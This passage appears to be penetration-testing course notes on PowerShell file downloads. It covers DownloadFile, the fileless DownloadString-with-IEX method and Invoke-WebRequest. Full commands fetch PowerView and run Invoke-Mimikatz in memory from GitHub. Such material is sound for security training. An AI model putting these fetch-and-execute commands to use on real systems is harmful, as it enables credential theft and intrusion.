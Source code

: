 ```sh
$ md5sum hosts 

3688374325b992def12793500307566d  hosts
```

### PowerShell Web Downloads
* Most companies allow `HTTP` and `HTTPS` outbound traffic through the firewall to allow employee productivity
* Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks
* [System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0) class can be used to download a file over `HTTP`, `HTTPS` or `FTP`

![](Screenshot_2022-10-12_095239.png)

#### PowerShell DownloadFile Method
* We can specify the class name `Net.WebClient` and the method `DownloadFile` with the parameters corresponding to the URL of the target file to download and the output file name

```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
```

#### PowerShell DownloadString - Fileless Method
* PowerShell can also be used to perform fileless attacks
* Instead of downloading a PowerShell script to disk, we can run it directly in memory using the [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2) cmdlet or the alias `IEX`.

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

* `IEX` also accepts pipeline input

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

#### PowerShell Invoke-WebRequest
* From PowerShell 3.0 onwards, the [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet is also available, but it is noticeably slower at downloading files
*  Aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest`
